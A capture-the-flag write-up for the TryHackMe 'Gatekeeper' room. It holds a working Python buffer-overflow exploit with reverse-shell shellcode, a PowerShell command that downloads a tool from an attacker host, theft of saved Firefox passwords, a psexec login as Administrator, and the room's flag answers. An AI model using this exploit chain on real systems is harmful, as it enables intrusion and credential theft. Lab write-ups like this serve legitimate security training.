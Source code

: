 ###### Can you get past the gate and through the fire?
Room: https://tryhackme.com/room/gatekeeper
##

We can find the app in the Users directory on the SMB server.  

The buffer overflow phase is the same as in [Brainstorm](https://github.com/leftermv/writeups/blob/main/THM/Brainstorm.md) room.  
So no point in covering every step again xD
Some useful info
* EIP offset is 146.
* Bad chars are x00 and x0a
* a jump can be found at 0x080414c3

**final exploit**
```
import socket

ip = "target IP"
port = 31337
prefix = "" 
offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\xba\x4c\xf9\xfc\xe3\xda\xc5\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x52\x31\x53\x12\x03\x53\x12\x83\x8f\xfd\x1e\x16\xf3\x16\x5c"
"\xd9\x0b\xe7\x01\x53\xee\xd6\x01\x07\x7b\x48\xb2\x43\x29\x65"
"\x39\x01\xd9\xfe\x4f\x8e\xee\xb7\xfa\xe8\xc1\x48\x56\xc8\x40"
"\xcb\xa5\x1d\xa2\xf2\x65\x50\xa3\x33\x9b\x99\xf1\xec\xd7\x0c"
"\xe5\x99\xa2\x8c\x8e\xd2\x23\x95\x73\xa2\x42\xb4\x22\xb8\x1c"
"\x16\xc5\x6d\x15\x1f\xdd\x72\x10\xe9\x56\x40\xee\xe8\xbe\x98"
"\x0f\x46\xff\x14\xe2\x96\x38\x92\x1d\xed\x30\xe0\xa0\xf6\x87"
"\x9a\x7e\x72\x13\x3c\xf4\x24\xff\xbc\xd9\xb3\x74\xb2\x96\xb0"
"\xd2\xd7\x29\x14\x69\xe3\xa2\x9b\xbd\x65\xf0\xbf\x19\x2d\xa2"
"\xde\x38\x8b\x05\xde\x5a\x74\xf9\x7a\x11\x99\xee\xf6\x78\xf6"
"\xc3\x3a\x82\x06\x4c\x4c\xf1\x34\xd3\xe6\x9d\x74\x9c\x20\x5a"
"\x7a\xb7\x95\xf4\x85\x38\xe6\xdd\x41\x6c\xb6\x75\x63\x0d\x5d"
"\x85\x8c\xd8\xf2\xd5\x22\xb3\xb2\x85\x82\x63\x5b\xcf\x0c\x5b"
"\x7b\xf0\xc6\xf4\x16\x0b\x81\xf0\xef\x17\xb8\x6d\xf2\x17\x3e"
"\x39\x7b\xf1\x54\xd5\x2d\xaa\xc0\x4c\x74\x20\x70\x90\xa2\x4d"
"\xb2\x1a\x41\xb2\x7d\xeb\x2c\xa0\xea\x1b\x7b\x9a\xbd\x24\x51"
"\xb2\x22\xb6\x3e\x42\x2c\xab\xe8\x15\x79\x1d\xe1\xf3\x97\x04"
"\x5b\xe1\x65\xd0\xa4\xa1\xb1\x21\x2a\x28\x37\x1d\x08\x3a\x81"
"\x9e\x14\x6e\x5d\xc9\xc2\xd8\x1b\xa3\xa4\xb2\xf5\x18\x6f\x52"
"\x83\x52\xb0\x24\x8c\xbe\x46\xc8\x3d\x17\x1f\xf7\xf2\xff\x97"
"\x80\xee\x9f\x58\x5b\xab\x80\xba\x49\xc6\x28\x63\x18\x6b\x35"
"\x94\xf7\xa8\x40\x17\xfd\x50\xb7\x07\x74\x54\xf3\x8f\x65\x24"
"\x6c\x7a\x89\x9b\x8d\xaf")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
except:
  print("boom :(")
```

After we get a reverse shell, we see that we're under user **natbat**. 
**The first flag is at C:\Users\natbat\Desktop\user.txt.txt and is {H4lf_W4y_Th3r3}** **[1]**.  


We can upload **WinPEAS** from our attacking machine using the following Powershell command.  
> powershell -c "Set-Content -value (New-Object Net.WebClient).DownloadData('http://xx.x.x.xxx:8000/WinPEAS.bat') -encoding byte -Path WinPeas.bat";

We can see that we're somehow hinted to check the saved firefox profiles.
I uploaded a static **nc.exe** on the target machine and used it to transfer two files.
* key4.db
* logins.json

Both files were in **C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release\**.  
Using **firepwd** we're able to get a user and a password from browser's cache, mayor:8CL7O1N78MdrCIsV

**python3** /usr/share/doc/python3-impacket/examples/psexec.py mayor:8CL7O1N78MdrCIsV@targetIP to auth as mayor under Administrator privileges.  

**The second and final flag is at C:\Users\mayor\Desktop\root.txt.txt and is {Th3_M4y0r_C0ngr4tul4t3s_U}** **[2]**.  

